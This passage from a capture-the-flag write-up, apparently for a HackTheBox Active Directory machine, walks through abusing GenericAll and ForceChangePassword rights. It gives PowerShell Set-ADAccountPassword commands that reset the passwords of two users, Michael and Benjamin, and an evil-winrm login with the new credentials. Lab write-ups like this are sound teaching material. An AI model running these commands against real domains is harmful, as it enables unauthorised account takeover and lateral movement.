 ### Force change password to Micheal

If we have "GenericAll" Privilege on a user we can Force the user password.

{% code overflow="wrap" %}
```bash
Set-ADAccountPassword -Identity 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}

And now we can login into DC with Michael user.

```bash
evil-winrm -i 10.10.11.42 -u 'michael' -p 'Password123!'
```

From Bloodhound, we can notice that the user `Michael` has the privilege to Force Change Password to `Benjamin` user.

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>



### Force change password to Benjamin

Change Benjamin's password from michael's winrm session.

{% code overflow="wrap" %}
```powershell
Set-ADAccountPassword -Identity 'CN=Benjamin Brown,CN=Users,DC=administrator,DC=htb
' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}
